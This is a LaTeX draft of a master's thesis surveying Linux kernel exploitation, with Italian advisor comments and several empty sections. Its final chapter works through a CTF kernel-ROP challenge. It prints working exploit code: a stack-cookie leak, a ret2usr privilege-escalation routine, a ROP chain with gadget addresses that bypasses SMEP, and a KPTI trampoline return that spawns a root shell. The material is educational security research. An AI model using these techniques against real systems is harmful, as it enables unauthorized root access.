\documentclass{masterthesis}

\usepackage{graphicx}
\usepackage{flexisym}
\usepackage{xspace}
\usepackage{todonotes}
\usepackage{enumitem}
\usepackage{tabto}
\usepackage{amsfonts}
\usepackage{pgfplots}
\usepackage[bookmarks=true,colorlinks=true,linkcolor=blue,citecolor=blue,filecolor=blue,urlcolor=blue]{hyperref}

%listing
\usepackage{listings}
\usepackage{color}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  language=C
}

\newcommand{\vtnote}[1]{\todo[color=green!20]{#1}}
\newcommand{\glnote}[1]{\todo[color=blue!20]{#1}}

% macros
\newcommand{\checkthis}[1]{{\color{red}{#1}}}
\newcommand{\refToChapter}[1]{Chapter~\ref{ch:#1}\xspace}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}

\begin{document}

\title{A survey of kernel-exploitation techniques}

\author{Vincenzo Terracciano}

\advisor{Giovanni Lagorio}

\examiner{_______ ______}

\maketitle

\tableofcontents

\chapter{Introduction}

\chapter{Kernel}
\label{ch:kernel}

We start our research about \emph{kernel exploitation} with an clear purpose: explaining what the kernel is and what exploitation signifies.
When we talk about a computer, we generally think of a set of physical devices (processor, motherboard, memory, hard drive, keyboard, etc.) that let us  perform simple tasks such as writing, sending an e-mail, watching a movie, surfing the Web and so on.
The kernel has complete control over everything in the system. It is the \emph{portion of the operating system code} that is always resident in memory, and facilitates interactions between hardware and software components.
Typically the kernel is responsible for memory management, process and task management and disk management.
Between these bits of hardware and applications we work on every day there's a layer of software that makes it possible all the hardware work efficiently and create an infrastructure which the applications can work.
This layer of software is the operating system, and its core is the kernel.

In modern operating systems, the kernel acts for the things we normally assume: virtual memory, hard-drive access, input/output handling, and so forth. Generally larger than most user applications, the kernel is a complex and charming piece of code usually written in a collection of assembly, the low level machine language, and C.
Moreover, the kernel employs some underlying architecture properties to separate itself from the rest of the running programs.
In fact, most \emph{Instruction Set Architectures} (ISA) supply at least two modes of execution: a \emph{privileged mode}, where the machine-level instructions are completely accessible, and an \emph{unprivileged/user mode}, in which only a subset of instructions are accessible.
Furthermore, the kernel protects itself from user applications by realizing separation at the software level.
When we have to set up the virtual memory subsystem, the kernel makes it possible to access the address space (i.e., the range of virtual memory addresses) of any process, and no process can directly refer to the kernel memory.

The reference to\glnote{We will call\ldots ?} the memory visible only to the kernel as \emph{kernel-land} memory and the memory a user process sees as \emph{user-land} memory. The term user-land refers to all code that runs outside the operating system's kernel. User-land usually refers to the various programs and libraries that the operating system uses to interact with the kernel\glnote{ho aggiunto emph; forse si può dire, più in generale, che chiamiamo ``user-land'' la parte di sistema vista da un processo utente, etc etc}
Code executing in kernel-land runs with full privileges and can access any valid memory address on the system, while code executing in user-land is subject to all limits as describe above. This separation between hardware- and software-based\glnote{non capisco il discorso hw- sw-based} is necessary to protect the kernel from accidental damage or alteration resulting from a misbehaving or malicious user-land application.

\chapter{Art of Exploitation}
\label{ch:exploitation}

There are various ways an attacker can behave as a \emph{super-user}, the most excitement is generally performed with the development of an exploit.\glnote{non capisco la frase}
\vtnote{Forse mi sono spiegato male....There are various ways an attacker can gain root privileges, ...}
The meaning behind \emph{exploitation} is really simple: software has bugs, and these make the software work not correctly, or otherwise perform incorrectly a task that had to perform in an appropriate way.
And all this means an advantage for the \emph{attacker}. Not every bug is exploitable; we refer to those that are as \emph{vulnerabilities}.
Analyzing an application to establish its vulnerability is called \emph{auditing}\glnote{non urlare ;-) ... usa emph e basta, non tutto in maiuscolo}\vtnote{XD}. It entails:
\begin{itemize}
\item \emph{Reading} the source code of the application, if available;
\item \emph{Reversing} the application binary; that is, reading the disassembly of the compiled code
\item \emph{Fuzzing} the application interface; that is feeding the application random or pattern-based, automatically generated input.
\end{itemize}

\section{Difference between Kernel-land and Userl-land}
\label{sect:land}

Until now the kernel has been described as the entity through which many countermeasures against exploitation are realized.\glnote{???}
\vtnote{non sapevo come introdurre il capitolo}
With the large diffusion of security patches and the contemporary reduction of user-land vulnerabilities, the attention of exploits writers has gone toward the core of the operating system.
However, writing a \emph{kernel-land exploit} presents various extra challenges if compared to a user-land exploit:
\begin{itemize}
\item The kernel is the only piece of software that is strictly for the system. As long as the kernel works correctly, there is no incorrigible situation.
This explains why user-land brute forcing, for example, is a feasibly choice: the only real worry we have to confront when we repeatedly crash our victim application is the noise we might create in the logs.
When it comes to the kernel, this hypothesis is not\glnote{nel linguaggio formale, come quello di una tesi, non usare mai le contrazioni; in questo caso: ``is not'' (cambia ovunque)} true anymore: an error at the kernel level leaves the system in an \emph{inconsistent state}, and it is usually required to take back the machine to its appropriate functioning.
 If the error happens inside one of the sensible areas of the kernel, the operating system will just shut down, a condition known as panic.
\item The kernel is protected from user-land via both software and hardware. Finding information about the kernel is a much more difficult job. At the same time, the number of variables that are no more under the attacker’s control intensifies in an exponentially way. For example, let's consider the \emph{memory allocator}.
In a user-land exploit, the allocator is inside \emph{the process}, generally connected through a shared system library. Your purpose is its only consumer and its only \emph{affecter}\glnote{non capisco la frase}\vtnote{Per questa sezione ho preso spunto da "a guide to kernel exploit"...}. On the other side, all the processes on the system may concern the behavior and the status of a kernel memory allocator.
\item The kernel is a large and complex system. The dimension of the kernel is substantive, maybe on the order of millions of lines of source code\glnote{metti il numero di linee del kernel attuale; forse ci potrebbe stare bene anche un grafico di come è cresciuto negli anni, se si trova (mi sembra di aver visto qualcosa in giro)}. 
\begin{figure}[h!]
   \makebox[\textwidth][c]{
\includegraphics{images/linux-lines-code.png}}
   \caption{Growth of Codebase Kernel Linux}
   \label{graphview}
\end{figure}

The kernel has to control all the hardware on the computer and most of the lower-level software
abstractions (virtual memory, file systems, IPC facilities, etc.). This implies many hierarchical, interconnected subsystems that the attacker may have to deeply understand to successfully trigger and exploit a specific
vulnerability. This characteristic can also become an advantage for the exploit developer, as a complex system is also less likely to be bug-free.
\end{itemize}
\glnote{qua ci starebbe un esempio di exploit banale, facendo i paralleli con quello che succede in un exploit user-land}

\chapter{Analysis Environment}
\label{ch:analyze}

\section{Debugging}
\label{sect:debugging}

In user space we had the support of the kernel so we could easily stop processes and use gdb to inspect their behavior.
GDB(collegamento wiki)\glnote{collegamento wiki??? se vuoi mettere un collegamento, metti la pagina ufficiale di gdb}\vtnote{collegamento wiki intendo i riferimenti che devo fare con bibitex o a siti :D} allows you to see what is going on \emph{inside} another program while it executes -- or what another program was doing at the moment it crashed.
\subsection{GDB}
\label{subsect:gdb}
GDB can do four main kinds of things to help you catch bugs in the act:
\begin{itemize}
\item Start your program, specifying anything that might affect its behavior.
\item Make your program stop on specified conditions.
\item Examine what has happened, when your program has stopped.
\item Change things in your program, so you can experiment with correcting the effects of one bug and go on to learn about another.
\end{itemize}
\glnote{tutto quello che segue è molto confusionario; per esempio, se usi gdb come front-end, chi è il kernel-debugger?} Using gdb as a front-end for the kernel debugger allows us to debug the kernel in the familiar and powerful debugging interface of gdb.
\glnote{Gira la frase: per poter debuggare un kernel, dobbiamo ricorrere a un hypervisor.... in realtà credo che tu possa anche usare un collegamento seriale e un altro PC; andrebbe detto (poi è scomodo e si usa QEMU, ovviamente} In the kernel, in order to use gdb we need to use hypervisor like QEMU based hardware interfaces which are not always available.
The Linux kernel provides a set of tools and debug options useful for investigating abnormal behavior.

\subsection{Running QEMU}
\label{subsect:QEMU}
As said previously, to debug the kernel we need the qemu hypervisor. Specifically, there are some options needed in kernel analysis:\glnote{usa un itemize per fare elenco puntato; alcune opzioni non mi sembra che siano per l'analisi, ma semplicemente per far partire un sistema linux sotto qemu}
\vtnote{potrei dire....there are some options we need to run an operating system and analyze the kernel:}

\begin{itemize}
\item -kernel <path>, (where <path> means the) Path to kernel image to debug;
\item -initrd <path>, Path to initial Ram disk. In short, a RAM disk is a filesystem dynamically placed in you RAM memory in boot time that contains the basic stuff needed to get your real filesystem running with the first processes needed to get your whole system running as expected, like the init process;
\item -gdb dev , wait for gdb connection on device dev. Typical connections will likely be TCP-based, but also UDP, pseudo TTY, or even stdio are reasonable use case;
\item -s, shorthand for -gdb tcp::1234, i.e. open a gdbserver on TCP port 1234;
\item -S, freeze the CPU on startup;
\item -cpu model, select CPU model. Here we can add +smep and +smap for SMEP and SMAP mitigation features;
\item -m [size=]megs, set virtual RAM size to megs megabytes;
\item -append, specifies additional boot options. This is also where we can enable/disable mitigation features.
\end{itemize}
These options are essential for analyzing the kernel. But qemu supports other options (indicate the documentation site) which may be useful for running the system and to help the user in the analysis.


\chapter{Kernel configuration}
\label{ch:kernel-configuration}
\glnote{dalle altre parti hai usato ``we''; vanno bene entrambi, tendenzialmente si usa ``we'', però l'importante è essere consistente}
\vtnote{Sisi, controllo che non ci siano altri cambi di pronomi}
We recommended that you build and install your own kernel, rather than running the stock kernel that comes with your distribution. One of the strongest reasons for running your own kernel is that the kernel developers have built several debugging features into the kernel itself. These features can create extra output and slow performance, so they tend not to be enabled in production kernels from distributors.

When building a kernel for debugging with gdb, I would advise using the following configuration options to make debugging a bit more pleasant.

Except where specified otherwise, all of these options are found under the \emph{``kernel hacking"} menu in whatever kernel configuration tool you prefer. Note that some of these options are not supported by all architectures and if it is addes, it is not considered for the building of kernel.
\glnote{usa lstlisting (da tutte le parti, la formattazione è tutta sbagliata)}
\begin{lstlisting}
CONFIG_GDB_SCRIPTS adds links to the GDB helper scripts.I find it particularly useful when debugging a kernel module, when I need to inspect the kernel log buffer or VFS mounts.

CONFIG_KGDB enables the built in kernel debugger, which allows for remote debugging. Technically this option is the only one that is strictly required, but attempting to debug without debug symbols will make debugging much harder.
CONFIG_FRAME_POINTER inserts code to into the compiled executable which saves the frame information in registers or on the stack at different points.

CONFIG_DEBUG_KERNEL makes other debugging options available.

CONFIG_DEBUG_SLAB turns on several types of checks in the kernel memory allocation functions; with these checks enabled, it is possible to detect a number of memory overrun and missing initialization errors.

CONFIG_DEBUG_PAGEALLOC where full pages are removed from the kernel address space when freed. This option can slow things down significantly, but it can also quickly point out certain kinds of memory corruption errors.

CONFIG_DEBUG_SPINLOCK allows to the kernel to catch operations on uninitialized spinlocks and various other errors.

CONFIG_INIT_DEBUG where items marked with _ _init (or _ _initdata) are discarded after system initialization or module load time. This option enables checks for code that attempts to access initialization-time memory after initialization is complete.

CONFIG_DEBUG_INFO causes the kernel to be built with full debugging information included. Including debug information in the kernel and kernel modules will make both the image and the modules larger in size.

CONFIG_DEBUG_STACK_USAGE and CONFIG_DEBUG_STACKOVERFLOW to check the overflows of kernel, IRQ and exception stacks. This option will cause messages of the stacks in detail when free stack space drops below a certain limit.
A sure sign of a stack overflow is an oops[cit]listing without any sort of reasonable back trace. The first option adds explicit overflow checks to the kernel; the second causes the kernel to monitor stack usage and make some statistics available via the magic SysRq key.

CONFIG_KALLSYMS causes kernel symbol information to be built into the kernel; it is enabled by default. The symbol information is used in debugging contexts; without it, an oops listing can give you a kernel traceback only in hexadecimal, which is not very useful.

CONFIG_IKCONFIG and CONFIG_IKCONFIG_PROC (found in the "General setup" menu) cause the full kernel configuration state to be built into the kernel and to be made available via /proc. Most kernel developers know which configuration they used and do not need these options (which make the kernel bigger). They can be useful, though, if you are trying to debug a problem in a kernel built by somebody else.
\end{lstlisting}

If you don’t want to use menuconfig is possible to set configuration options via command line using the following
\lstinline{$ ./scripts/config -e CONFIG_<your option>} .\\
Once you have enabled all these options, you need to build the kernel.
This is done from the command line:\\
\lstinline{$ make -j$(nproc)}\\
Before starting the VM and attempting to attach gdb, set up gdb to load the Linux helper scripts by adding \lstinline{add-auto-load-safe-path} to your \lstinline{~/.gdbinit}.

\chapter{Linux kernel mitigation features}
\label{ch:mitigation}
\section{Mitigation features like Userland}
\label{sect:like userland}
Just like mitigation features such as ASLR, stack canaries, PIE, etc. used by userland programs, kernel also have their own set of mitigation features. Below are some of the popular and notable Linux kernel mitigation features.

\subsection{Kernel stack canary}:
\label{subsect:canary}
\glnote{nel titolo usi cookie, ma poi parli di canary\ldots}
Stack canaries are a mitigation targeted at stack-based buffer overflow attacks. It works by exploiting one of the limitations of these kind of attacks, namely, that the attacker must overwrite all the bytes between the overflown buffer and the control data (i.e., saved registers and the return address). The idea is to put a value—the canary—between the local variables and the control data of each function stack frame. The attacker, thus, has to overwrite the canary before she can overwrite the control data. If overwriting the canary is impossible or can be detected, the attack is blocked.
It is enabled in the kernel at compile time and cannot be disabled.

\subsection{Kernel address space layout randomization}
\label{subsect:KASLR}
Also like ASLR on userland, it is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. In order to prevent an attacker from reliably jumping to, for example, a particular exploited function in memory, ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap and libraries.
With kernel address space layout randomization (KASLR), the kernel is loaded to a random location in memory.
Loading the kernel to a random location can protect against attacks that rely on knowledge of the kernel addresses.
The KASLR feature is enabled by default.

\section{Powerful linux mitigation features}
\label{sect:powerful mitigation}
\glnote{dire su che processori sono supportate/cosa serve a livello hardware}

\subsection{Supervisor mode execution protection (SMEP)}
\label{subsect:SMEP}
The processor introduces a new machanism that provides next level of system protection by blocking malicious software attacks from user mode code when the system is running in the highest privilege level.
This feature marks all the userland pages in the page table as non-executable when the process is in kernel-mode. In the kernel, this is enabled by setting the 20th bit of Control Register CR4.

\subsection{Supervisor Mode Access Prevention}
\label{subsect:SMAP}
Supervisor Mode Access Prevention (SMAP) allows supervisor mode programs to optionally set user-space memory mappings so that access to those mappings from supervisor mode will cause a trap. This makes it harder for malicious programs to ``trick" the kernel into using instructions or data from a user-space program.
Complementing SMEP, this feature marks all the userland pages in the page table as non-accessible when the process is in kernel-mode, which means they cannot be read or written as well. In the kernel, this is enabled by setting the 21st bit of Control Register CR4.

\subsection{Kernel page-table isolation}
\label{subsect:KPTI}
Kernel page-table isolation (KPTI or PTI,previously called KAISER) is a Linux kernel feature improves kernel hardening against attempts to bypass kernel address space layout randomization (KASLR). It works by better isolating user space and kernel space memory.\glnote{è stata introdotta contro Meltdown, se non vado errato; andrebbe detto}
\glnote{l'ho citata nell'exploit, ma lo posso dire qui}
This mitigation was added to avoid the \emph{Meltdown} (wiki).
When this feature is active, the kernel separates user-space and kernel-space page tables entirely, instead of using just one set of page tables that contains both user-space and kernel-space addresses. One set of page tables includes both kernel-space and user-space addresses same as before, but it is only used when the system is running in kernel mode. The second set of page tables for use in user mode contains a copy of user-space and a minimal set of kernel-space addresses.

\subsection{Function Granular Kernel Address Space Layout Randomization}
\label{subsect:FG-KASLR}
Probably is the strongest linux kernel mitigation feature.
This patch set is an implementation of finer grained kernel address space randomization. It rearranges your kernel code at load time on a per-function level granularity, with only around a second added to boot time.
KASLR was merged into the kernel with the objective of increasing the difficulty of code reuse attacks. Code reuse attacks reused existing code snippets to get around existing memory protections. They exploit software bugs which expose addresses of useful code snippets to control the flow of execution for their own nefarious purposes. KASLR moves the entire kernel
code text as a unit at boot time in order to make addresses less predictable.
The order of the code within the segment is unchanged - only the base address is shifted. There are a few shortcomings to this algorithm.

\glnote{usa enumerate per gli elenchi numerati}
\begin{enumerate}
\item Low Entropy - there are only so many locations the kernel can fit in. This means an attacker could guess without too much trouble.
\item Knowledge of a single address can reveal the offset of the base address, exposing all other locations for a published/known kernel image.
\item Info leaks abound.
\end{enumerate}

Finer grained ASLR has been proposed as a way to make ASLR more resistantto info leaks. It is not a new concept at all, and there are many variations possible. Function reordering is an implementation of finer grained ASLR which randomizes the layout of an address space on a function level granularity.

\chapter{Intensification of mitigation features}
\label{ch:adding mitigation}
In this chapter, I'll show how mitigations make it harder to exploit root privileges.
In particular, I will explore the resolution of a \emph{CTF} (wiki CTF https://hxp.io/blog/81/hxp-CTF-2020-kernel-rop/), starting from an environment without mitigations up to adding all the mitigations to solve the real CTF.
To do this I will use a technique called \emph{ROP}(wiki) with a module having an extremely trivial and standard bug.
\section{Setup environment}
Our task is to exploit a vulnearable custom kernel module that is installed into the kernel on boot.
I'll use the setup seen for the kernel in the section (dire la sezione del setup kernel) and the one for qemu (esplicitare sezione di qemu).
Since it is a CTF, where it is usual to use a flag to prove that you are getting the admin mode, you need to add some options in the qemu setup.
To do this, the command is also added to the qemu settings:
\lstinline{-hdb flag.txt}
that it puts flag.txt into /dev/sda instead of leaving the flag.txt as a normal file in the system.
Another important step is to find gadgets inside the kernel to be able to perform a rop chain.
This is possible with ROPgadget (https://github.com/JonathanSalwan/ROPgadget), which searches for all possible gadgets within the kernel.
Since this type of operation produces an enormous amount of data, it is preferable to save everything on a file that can always be consulted for the following steps.
To perform the exploit, the executable file containing the necessary steps for the exploit must be inserted into the file system.
\subsection{Analyzing the kernel module}
\label{subch:hackme}
The module contains 6 methods.
They allow you to communicate with this module by opening \lstinline{/dev/hackme} and reading and writing to it.
\begin{lstlisting}
ssize_t __fastcall hackme_write(file *f, const char *data, size_t size, loff_t *off)
{
    //...
    int tmp[32];
    //...
    if ( _size > 0x1000 )
    {
        _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, _size);
        BUG();
    }
    _check_object_size(hackme_buf, _size, 0LL);
    if ( copy_from_user(hackme_buf, data, v5) )
        return -14LL;
    _memcpy(tmp, hackme_buf);
    //...
}
ssize_t __fastcall hackme_read(file *f, char *data, size_t size, loff_t *off)
{
    //...
    int tmp[32];
    //...
    _memcpy(hackme_buf, tmp);
    if ( _size > 0x1000 )
    {
        _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, _size);
        BUG();
    }
    _check_object_size(hackme_buf, _size, 1LL);
    v6 = copy_to_user(data, hackme_buf, _size) == 0;
    //...
}
\end{lstlisting}
The bug, the same in both methods, reads / writes to a buffer stack of length 0x80 bytes, but only warns of a buffer overflow if the size is greater than 0x1000. Using this bug, we can freely read / write to the kernel stack.

\section{Stack cookies}
Now, let's see what we can do with the above primitives to gain root privileges, starting with one possible mitigation feature: only cookies stack.

The idea is to put the piece of code which we want the program’s flow to jump into in the userland itself. After that, we simply overwrite the return address of the function that is being called in the kernel with that address. Because the vulnerable function is a kernel function, our code - even though being in the userland - is executed under kernel mode. In this way, we have already achieved arbitrary code execution.
For this technique to work, we will remove most of the mitigation features in the qemu run the script by removing +smep, +smap, kpti=1, kaslr, and adding nopti, nokaslr.
\subsection{Step by step to exploit}
First of all let's open the hackme function with the \emph{open} method. It returns a file descriptor which will be used later in the next steps.
Using a \emph{read} function, we're going to read the stack.
The \emph{buffer} in the stack itself is 0x80 bytes long and the stack cookie is immediately after it. Therefore, if we read the data in an unsigned long array (of which each element is 8 bytes), the cookie will be at offset 16.
To overwrite the return address, the same procedure is carried out for leaking, overwriting the cookie with ours. Note, however, that after the cookie there are 3 registers \emph{rbx, r12, and rbp} (different in the userland because the only rbp appears).
This involves inserting three dummy values after our cookie and inserting the return address we want our program to return to, which corresponds to the function we will create in the user area to get root privileges.
\subsection{Getting root privileges}
Our goal is to get root privileges on the system.
This can be done through two functions that already reside in the same kernel-space code: commit_creds () and prepare_kernel_cred ().
Since KASLR is disabled, the addresses where the functions reside are constant at every start. So we can get those addresses by reading the \emph{/proc/kallsyms} file with the following terminal commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred}
\end{lstlisting}
Then to get root privileges you need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other.
At this point, we need to recall an instruction that allows you to return to userland.
This can be done with \emph{iretq} or \emph{sysretq}.
With iretq it is much simpler as you need to configure the stack with 5 user area registry values in this order:\emph{RIP | CS | RFLAGS | SP | SS}.
For the RIP, we can set the address of the function that allows you to open a shell, while for the others you need to enter values that return to a state before entering kernel mode.
The best solution, therefore, is to save the state of the registers before entering kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
Before iretq, it is appropriate to invoke the \emph{swapgs} instruction because syscall does not change RSP to point to the kernel stack (and it does not save RSP user space anywhere). So some kind of thread-local (or core-local) storage is needed so that each core can get the correct kernel stack pointer for the task running on that core.
A possible code to gain root privileges is:
\begin{lstlisting}
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
      "call rax; mov rdi, rax;"
      "movabs rax, 0xffffffff814c6410;" //commit_creds
      "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\section{Adding SMEP}
In the previous section (citare il numero) we used our piece of code which is saved in the userspace. Bvy activating SMEP, as mentioned in the paragraph (dove l'ho citato), user pages are marked as not executable while in kernel mode.
There are two possible scenarios:
\begin{itemize}
\item Write an arbitrary amount of data to the kernel stack.
\item Overwrite up to the return address on the kernel stack.
\end{itemize}
\subsection{Overwrite CR4}
\label{subsect:CR4}
The 20th bit of the CR4 control register is responsible for enabling or disabling SMEP.
In kernel mode, we have the power to modify the contents of the control register.
To do this there is a special instruction \lstinline{mov cr4, rdi} called by a function called native_write_cr4().
So to be able to bypass SMEP you try to execute ROP inside this function.
As for the commit_creeds() and prepare_kernel_cred() functions, we find the address by reading \lstinline{/proc/kallsyms}.
To build the ROP chain we use the same approach used in userland, but instead of going back to our userland code, we go back into the native_write_cr4 (value) function, insert the value we need and then go back to the code to get the privileges.
By reading the documentation of the CR4 bit, the developers, knowing of this possible solution to bypass SMEP, have blocked the possibility of overwriting that bit.
Each time they are overwritten they are reset with the kernel boot settings.
So the first scenario cannot be undertaken to obtain privileges.
\subsection{Second scenario}
In the second scenario, however, we will no longer exploit our userland code but only the ROP technique.
The plan is quite simple:
\begin{itemize}
\item ROP into prepare_kernel_cred (0), already seen.
\item ROP into commit_creds (), with the return value from step 1 as the parameter.
\item ROP into swapgs; ret.
\item ROP into iretq with the stack setup as RIP | CS | RFLAGS | SP | SS, already seen.
\end{itemize}
The ROP chain is trivial, but the gadgets found in the kernel cannot always be exploited, so many attempts must be made to find the right gadget.
Some instructions might seem strange, but sometimes only some are really usable and executable.
For example, to move the return value in step 1 (stored in rax) to rdi to move to commit_creds (), the only instructions are:
\begin{lstlisting}
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8; jne 0xffffffff81964cbb; pop rbx; pop rbp; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax; jne 0xffffffff8166fe7a; pop rbx; pop rbp; ret
\end{lstlisting}
They might sound a little bizarre, but all the ordinary gadgets tried are not executable.
This is not always the case, it depends on the kernel in use, in fact very important at this stage is to try all possible solutions.
The above code, entering 8 in rdx ignores the jne instruction, allows you to write the rax value in rdi that will be used for the commit_creds function (prepare_kernel_cred (0))
While ROPgadget can find swapgs, it doesn't find iretq, so we use objdump to find the right address and be able to write the full ROP chain.
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in the paragraph (quote the part with ktpi) the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we're going to look at is called a \emph{trampoline}.
Logically if a system call returns normally there must be a piece of code in the kernel that swaps the page tables to the userland, so we will try to reuse that code for our purpose.
This piece of code is called a trampoline and swaps the page tables, swapgs, and iretq.
\section{Tweaking the ROP chain}
The piece of code resides in a function called \lstinline{swapgs_restore_regs_and_return_to_usermode()} which we always find with \lstinline{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     rdi, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [rdi+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [rdi+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [rdi+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [rdi+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [rdi+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [rdi]
.text:FFFFFFFF81200F43                 push    rax
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address FFFFFFFF81200F26 the function makes a series of pop that free the stack, then you get to the part that swaps the tables of the page.
We will have two extra pop at the beginning, then we will add two dummy values, and we will modify the final part of our ROP chain from \lstinline{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \lstinline{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in the paragraph (subsection {Second scenario}), it can be used to bypass the SMEP.
\section{Adding SMAP}

\section{Adding KASLR and FG-KASLR}
\end{document}







